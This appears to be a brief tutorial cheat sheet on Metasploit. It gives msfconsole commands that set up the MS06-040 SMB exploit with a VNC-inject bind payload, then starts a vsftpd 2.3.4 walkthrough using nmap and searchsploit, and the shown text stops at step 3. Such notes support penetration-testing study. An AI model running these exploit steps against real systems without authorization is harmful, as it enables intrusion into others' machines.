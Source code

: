 # Metasploit Structure

## Go to the metasploit directory
	
		-> cd /usr/share/metasploit-framework/
		
## Go to the modules directory

		-> cd modules 

# MSFConsole

## Type msfconsole in the terminal

	-> show payloads
	-> show exploits
	
	->use exploit/windows/smb/ms06_040_netapi 
	
			-> show info
			
			-> show options
			
			-> set LHOST 192.168.10.3
			
			-> show payloads
			
			-> set payload payload/windows/vncinject/bind_tcp
			
			-> show targets
			
			-> set target 3
			
			-> exploit

# Exploit Vsftp 2.3.4

### Step 1: 
		
		scan the target with nmap
		
		-> nmap -sV 192.168.10.4 

### Step 2: 

		Search for the vulnerability
		
		-> searchsploit vsftpd 2.3.4

### Step 3:

		Search in the vulnerability in the metasploit framework
		